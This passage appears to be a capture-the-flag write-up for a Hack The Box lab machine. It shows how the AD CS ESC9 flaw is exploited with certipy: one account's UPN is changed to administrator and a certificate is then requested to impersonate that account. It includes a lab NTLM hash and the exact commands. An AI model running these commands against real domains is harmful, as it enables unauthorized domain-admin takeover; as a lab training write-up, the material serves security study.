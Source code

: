 <br><br>

_ESC9_. These (ESC1, ESC2, etc.) are a series of vulnerabilities that can be find inside AD CS. Here a useful read:

<br>

https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

<br><br>

In our case, if a user has permissions to enroll in certain AD Certificate Templates, they can request certificates that 
allow them to impersonate other users. Including *Domain Admins*. Requisites for ESC9 are:

<br>

	GenericWrite over any account A to compromise any account B

<br><br>

It looks like we're set. To perform the attack we just need the hash of the user allowed to enroll in the certificate template. 
This is an easy one. We set the password to be Password1. Quick visit to https://www.browserling.com/tools/ntlm-hash gives us the hash.

<br>

	64f12cddaa88057e06a81b54e73b949b
	
<br><br>

We start by updating the ca_operator account to administrator:

<br>

    $ certipy account update -username management_svc@certified.htb -hashes a091BLABLABLA5584 -user ca_operator -upn administrator

<br>

![Pasted image 20241109174958](https://github.com/user-attachments/assets/d341d033-84f2-4e07-abfb-9aa075da6d09)

<br><br>

Then we have to request the certificate on behalf of administrator:

<br>

	$ certipy req -username ca_operator@certified.htb -hashes 64f12cddaa88057e06a81b54e73b949b -ca certified-DC01-CA -template CertifiedAuthentication

<br>

![Pasted image 20241106075929](https://github.com/user-attachments/assets/1dc57512-106a-4c3b-b365-9f028b3229b2)

<br><br>

Revert ca_operator account to normal:

<br>
